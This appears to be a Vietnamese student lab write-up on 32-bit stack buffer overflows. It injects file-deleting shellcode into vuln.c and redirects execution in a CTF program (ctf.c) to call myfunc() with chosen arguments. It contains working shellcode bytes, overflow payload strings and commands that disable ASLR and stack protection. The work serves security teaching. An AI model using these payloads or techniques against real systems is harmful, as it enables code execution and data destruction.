



# LAB 2
## Task 1: Inject code to delete file_asm through vuln.c is given on github

Dưới đây là code của `vuln.c`

Và đây là code của `file_del.asm`

Đầu tiên chúng ta sẽ liên kết tới máy ảo bằng cách sử dụng câu lệnh `docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab`

Sau khi liên kết thư mục Seclabs từ hệ điều hành Window trên máy chúng ta đến seclabs trên hệ điều hành của máy ảo

Vì Ubuntu 16.04 không cho phép chúng ta thực thi `code` trên `stack`. Nên chúng ta cần phải sử dụng câu lệnh `sudo ln -sf /bin/zsh /bin/sh` để có thể thực thi `code` trên `stack`

Và để có thể dễ dàng hơn khi thực hiện bài lab này, chúng ta sẽ phải tắt chức năng cấp phát địa chỉ ngẫu nhiên của hệ điều hành bằng lệnh `sudo sysctl -w kernel.randomize_va_space=0`

Sau đó chúng ta sẽ đi biên dịch chương trình hợp ngữ `file_del.asm` bằng lệnh `nasm -g -f elf file_del.asm` và liên kết bằng lệnh `ld -m elf_i386 -o file_del file_del.o`

Sau đó chúng ta sẽ lấy được chuỗi thập lục phân của `file_del.asm` bằng cách sử dụng: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

=> Chuỗi thập lục phân: `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.`

Nhưng ở đây ta sẽ không cần `xdummyfile`
=> `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

Giờ chúng ta sẽ biên dịch `vuln.c` sao cho chúng ta có thể thực thi code trên stack bằng cách sử dụng lệnh: `gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

Cuối cùng ta tạo một file với tên `dummyfile`

Dựa vào code của `vuln.c` ta có thể vẽ được stackframe 
|Stackframe|
|----------|
|buf (64 bytes)|
|EBP (4 bytes)|
|Return Address (4 bytes)|
|Argc (4 bytes)|
|Argv (4 bytes)|

Nhiệm vụ của chúng ta là phải thực thi được `file_del.asm` trong stack, vì vậy chúng ta cần làm tràn bộ đệm từ biến `buf` đến `return address` sao cho `return address` chỉ đến chuỗi thập lục phân của `file_del.asm`, mà `file_del.asm` lại nằm ở `esp` do chúng ta sẽ truyền chuỗi thập lục phân của `file_del.asm` vào đầu tiên. Từ đó chúng ta suy ra được sẽ cần truyền 36 bytes của chuỗi thập lục phân + 32 bytes đệm + 4 bytes địa chỉ `esp`. Nhưng chúng ta có thể thay 4 bytes của địa chỉ `esp` bằng `xff` để quan sát quá trình.

Dùng `gdb` để quan sát ta có thể đặt 2 breakpoint ở `0x0804843e` và `0x0804846b` 

Chúng ta xài lệnh `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")`

Sử dụng `x/80xb $esp` để xem toàn bộ stackframe.(Màu vàng: `buf`; Màu xanh lá: `esp`; Màu xanh dương:`return address`)

Sau đó ta tiếp tục bằng `continue`

Sử dụng `x/80xb $esp` để xem lại toàn bộ stackframe.(Màu vàng: `buf`; Màu xanh lá: `esp`; Màu xanh dương:`return address`)

So sánh với chuỗi thập lục phân, ta thấy được chỉ có 3 bytes đầu là đúng còn lại thì đều khác. Điều này là do chuỗi của chúng ta có `\x0a`.

Mà ta phải tránh:
`\x0a`: kí tự xuống dòng
`\x09`: tab ngang 
`\x00`: kí tự Null

Mà `\x0a` có giá trị thập phân là 10, xem trong chương trình hợp ngữ ta có thể thấy: 

Do đó, cần thay đổi file asm

Sau đó chúng ta biên dịch lại `file_del.asm` để lấy chuỗi thập lục phân mới

`\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

Chúng ta sẽ thay bytes cuối của chuỗi thập lục phân thành `0x0f` để ngăn chuỗi kết thúc bởi `0x00`

`r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f' + 'a'*32 +'\xff\xff\xff\xff')")`

Bây giờ, chương trình sẽ thông báo lỗi do nó không thể tìm để địa chỉ `0xffffffff` để trả về

=> Chúng ta cần thay `0x0f` thành `0x00` ở địa chỉ `0xffffd6cb` bằng lệnh `set {unsigned char} 0xffffd6cb = 0x00`. Và chúng ta sẽ thay tiếp địa chỉ trả về `0xffffffff` bằng giá trị của `buf` là `0xffffd6a8` bằng lệnh `set *0xffffd6ec = 0xffffd6a8`

Kết quả có được sẽ là:

Tiếp tục chạy chương trình

Chúng ta thấy được dummyfile vẫn còn. Quay lại code hợp ngữ: `objdump -d file_del`

Như chúng ta thấy thì `dummyfile` bắt đầu từ `0xffffd6c2` không phải từ `0x080407a` trong chương trình C

=> Thay `0xffffd6b1` thành `0xffffd6c2`: `set *0xffffd6b1 = 0xffffd6c2`

Tiếp tục chạy chương trình

Ta thấy `dummyfile` đã được xóa thành công.

## Task 2: Conduct attack on ctf.c

Dưới đây là code của `ctf.c`

Từ code ta có thể thấy được lỗ hỏng ở đây nằm ở hàm `strcpy()` cho phép ta nhập dự liệu nhiều hơn so với dữ liệu đã khai báo dẫn đến trình trạng overflow và ta có thể khai thác từ đây. Và nhiệm vụ ở đây của chúng ta chính là thực thi được hàm `myfunc()` với biến `p=0x04081211` và biến `q=0x4644262`

Và từ code thì ta có thể có được stackframe của hàm `vuln()`:
|vuln()|
|----------|
|buf (100 bytes)|
|EBP (4 bytes)|
|Return Address|
|s (4 bytes)|

Và hàm `myfunc()`:
|myfunc()|
|----------|
|filebuf (64 bytes)|
|EBP (4 bytes)|
|Return Address (4 bytes)|
|p (4 bytes)|
|q (4 bytes)|

Từ đây chúng ta biết được, để gây ra overflow ta cần 104 bytes đệm và 4 bytes địa chỉ của `myfunc()` để ghi đè lên `return address` trên stackframe của `vuln()` nhưng vì ở đây `myfunc()` không được gọi trực tiếp từ hệ thống nên sẽ không được cấp phát dữ liệu cho biến `p` và `q` do đó chúng ta phải tìm được địa chỉ mà `myfunc()` lấy giá trị `p` và `q` từ đó chúng ta có thể overflow để ghi đè đến đó.

Đầu tiên chúng ta sẽ biên dịch `ctf.c`: `gcc -g ctf.c -o ctf.out -fno-stack-protector-mpreferred-stack-boundary=2`

Sau đó dùng `gdb` để quan sát `myfunc`

+ Màu xanh dương là địa chỉ của `myfunc()`: `0x0804851b`
+ Màu xanh lá là địa chỉ mà `myfunc()` lấy giá trị của `p`: `ebp+0x8` (ebp + 8)
+ Màu vàng là địa chỉ mà `myfunc()` lấy giá trị của `q`: `ebp+0xc` (ebp + 12)

Từ đó chúng ta sẽ sử dụng lệnh: 

`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`

Để ghi đè địa chỉ `myfunc()` cũng như giá trị biến `p` và `q`.

Trước khi chạy lệnh ta cần tạo 1 file `flag1.txt` vì `myfunc()` sẽ có đọc file này.

Và giờ ta sẽ chạy lệnh

Như ta thấy, sau khi chạy thì bị lỗi `0x61616161 in ??` và dừng. Nguyên nhân là do hệ thống không biết địa chỉ trả về này. Vì vậy chúng ta cần phải lấy địa chỉ của `exit` để ghi đè lên địa chỉ trả về mới là `0x61616161` hay rõ hơn chính là 4 bytes đệm của chúng ta giữa địa chỉ của `myfunc()` và giá trị của `p` (0x61616161 = 'a'*4)

Do đó chúng ta sẽ tìm địa chỉ của `exit`

Có được địa chỉ của `exit`: `0xf7e449e0`

=> Lệnh mới của chúng ta là: `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x49\xe4\xf7'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`

Và chúng ta đã thành công chạy được `myfunc()` cũng như truyền vào được giá trị của `p` và `q`.